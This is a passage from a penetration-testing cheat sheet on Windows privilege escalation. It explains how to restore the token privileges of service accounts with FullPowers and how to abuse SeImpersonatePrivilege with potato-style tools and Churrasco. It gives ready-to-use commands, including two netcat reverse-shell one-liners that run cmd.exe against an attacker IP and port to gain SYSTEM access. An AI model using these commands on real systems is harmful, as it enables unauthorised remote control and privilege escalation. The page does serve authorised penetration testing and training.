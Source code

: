 ### Enable/Recover All the tokens

{% tabs %}
{% tab title="Second Tab" %}
On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to **run with a restricted set of privileges**. However, when you **create a scheduled task**, the new process created by the **Task Scheduler Service** has **all the default privileges** of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

We can use [FullPowers](https://github.com/itm4n/FullPowers) to recover the default privilege set of a LOCAL/NETWORK SERVICE account:

```powershell
#Specify a commandline
.\FullPowers -c "cmd.exe"

#Spawn a revers shell and exit
.\FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```
{% endtab %}

{% tab title="EnableAllTokenPrivs" %}
You can use the script [**EnableAllTokenPrivs.ps1**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) to enable all the tokens:

```powershell
.\EnableAllTokenPrivs.ps1
whoami /priv
```
{% endtab %}
{% endtabs %}

### SeImpersonatePrivilege

Any process holding this privilege can **impersonate** (but not create) any **token** for which it is able to gethandle. You can get a **privileged token** from a **Windows service** (DCOM) making it perform an **NTLM authentication** against the exploit, then execute a process as **SYSTEM**. Exploit it with [juicy-potato](https://github.com/ohpe/juicy-potato), [RogueWinRM ](https://github.com/antonioCoco/RogueWinRM)(needs winrm disabled), [SweetPotato](https://github.com/CCob/SweetPotato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

{% tabs %}
{% tab title="Churrasco" %}
[Churrasco](https://github.com/Re4son/Churrasco), Allow us to leverage the SeImpersonatePrivilege on older versions of Windows

{% hint style="danger" %}
Churrasco will works on **Windows XP/VISTA/2003/2008, Win Server 2003**
{% endhint %}

```powershell
c:\Users\Public> .\churrasco.exe -d "nc.exe -e cmd.exe IP PORT"
```
{% endtab %}
